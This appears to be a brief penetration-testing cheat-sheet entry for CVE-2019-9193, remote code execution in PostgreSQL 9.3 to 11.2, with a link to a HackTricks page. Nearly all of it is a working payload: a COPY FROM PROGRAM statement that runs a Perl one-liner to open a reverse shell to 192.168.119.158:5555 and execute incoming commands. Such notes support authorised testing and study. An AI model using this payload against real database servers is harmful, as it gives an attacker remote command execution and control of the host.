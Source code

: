 # CVEs

### CVE-2019–9193 - **RCE from version 9.3 to 11.2**

```text
CREATE TABLE files(cmd_output text);
COPY files FROM PROGRAM 'perl -MIO -e ''$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"192.168.119.158:5555");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;''';
```

{% embed url="https://book.hacktricks.xyz/pentesting-web/sql-injection/postgresql-injection\#cve-2019-9193-rce-from-version-9-3-to-11-2" %}

\*\*\*\*



